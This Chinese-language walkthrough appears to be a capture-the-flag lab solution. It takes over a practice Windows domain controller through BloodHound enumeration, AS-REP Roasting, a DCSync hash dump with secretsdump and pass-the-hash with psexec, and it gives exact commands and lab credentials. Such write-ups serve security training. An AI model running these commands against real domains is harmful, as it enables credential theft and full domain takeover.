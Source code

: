 ## 端口扫描

通过masscan对目标10.10.10.30进行快速的端口扫描
![](./1.png)
 
从扫描结果看出，该服务器开启了多个AD相关端口，如88端口的kerberos服务和389端口的LDAP服务，这意味着这是一台域控服务器。另外，5985端口开放意味着该服务器开启了winrm服务。

## 收集域信息

通过上一台机器获取到的信息，已知域megacorp.local，用户名sandra，密码Password1234!，gc(全局编录服务器)pathfinder.megacorp.local，ns(dns服务器)10.10.10.30
通过bloodhound工具去枚举活动目录。

安装bloodhound-python:
pip install bloodhound

bloodhound-python -d megacorp.local -u sandra -p "Password1234!" -gc pathfinder.megacorp.local -c all -ns 10.10.10.30
![](./2.png)
 
安装neo4j:
apt install neo4j

安装bloodhound:
apt install bloodhound

开启neo4j:
neo4j start console

访问http://localhost:7474/browser，默认用户名neo4j，密码neo4j，会提示修改密码

Bloodhound –no-sandbox 登陆neo4j的数据库

将bloodhound-python跑出来的json文件拖进bloodhound，bloodhound会开始进行分析。在过滤条件选择Shortest paths to High value Targets 和 Find Principles with DCSync Rights
![](./3.png) 

可以看到svc_bes用户拥有GetChangesAll的权限。这意味着该用户可以从域控复制数据，从而获取用户hash。
![](./4.png)

## 横向移动

发现svc_bes账号没有开启kerberos预授权，这意味存在AS-REP Roasting漏洞，通过impacket中的GetNPUsers脚本获取获取TGT票据，将票据存放到hash文件，用john爆破获取到svc_bes账号的明文密码Sheffield19
GetNPUsers.py megacorp.local/svc_bes -request -no-pass -dc-ip 10.10.10.30
![](./5.png)

## 获取普通用户权限

安装evil-winrm:
gem install evil-winrm

通过winrm服务登陆svc_bes账号:
evil-winrm -i 10.10.10.30 -u svc_bes -p Sheffield19
获取普通用户的flag
![](./6.png)

## 权限提升
 
因为svc_bes用户存在GetChangesAll权限，因此可以使用impacket中的secretdump脚本通过DCsync攻击去dump所有域用户的NTLM hash
secretsdump.py -dc-ip 10.10.10.30 MEGACORP.LOCAL/svc_bes:Sheffield19@10.10.10.30
![](./7.png)

我们获取到了域管理员的NTLM hash，因此可以使用psexec脚本通过PTH(哈希传递)攻击获取system权限
psexec.py megacorp.local/administrator@10.10.10.30 -hashes <NTML hash>:<NTLM hash>
![](./8.png)

## 整体思路
![](./思路.jpg)
 
